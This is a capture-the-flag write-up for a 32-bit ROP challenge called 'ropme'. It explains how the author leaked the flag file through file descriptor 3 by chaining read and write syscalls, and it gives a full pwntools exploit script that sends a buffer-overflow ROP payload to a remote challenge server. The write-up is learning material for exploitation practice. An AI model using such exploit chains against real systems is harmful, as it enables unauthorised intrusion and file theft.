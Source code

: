 ## ropme

---

FLAG{REDACTED}

---

The final rop challenge.
I'm sure there's a way to run `puts(<puts@plt>)`, leaking libc, but unlike the previous challenges, I simply used the read and write syscalls to dump the flag instead of trying to pop a shell.

Interestingly, because of how the program works, the flag file is bound to be opened in the next available file descriptor: `3` (after `stdin`, `stdout` and `stderr`). Exploiting this fact, we can dump the `flag` file without a shell.

**Notes:**

1. What you want to be careful is not to put too many bytes into the stream, so you don't end up going beyond the possible number of bytes the program can take in before you crash it. The payload is fairly large, and the "buffer" rather small at only 8 bytes.
2. On the flip-side, you also need to remember that you're overwriting the buffer you're putting the rop chain in, so you need to make sure that the next rop instruction is not accidently overwritten. This probably won't happen because all the rop gadgets are 4 bytes long, whereas the instruction inside: `add edx, 1; ret;` only adds one byte the total number of characters to write.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./ropme')
p = remote('plsdonthaq.me', 6004)

#gdb.attach(p)

# ecx is set

# mov edx, 0
zeroEdx = p32(0x080484ef)

# add edx, 1
addEdx = p32(0x080484fc)

# ebx
setEbx = zeroEdx + addEdx + p32(0x08048502)
setEbx2 = p32(0x08048420)

# mov eax, 3
setEax = zeroEdx + addEdx + addEdx + addEdx + p32(0x08048500)

# mov eax, 4
setEax2 = zeroEdx + addEdx + addEdx + addEdx + addEdx + p32(0x08048500)

# int 0x80
syscall = p32(0x080484f2)

# 8 bytes in the buffer + ebp
padding = b'A' * 12

p.sendline(padding + setEax + (addEdx * 100)
        + syscall + setEax2 + setEbx
        + (addEdx * 100) + syscall)

p.interactive()
```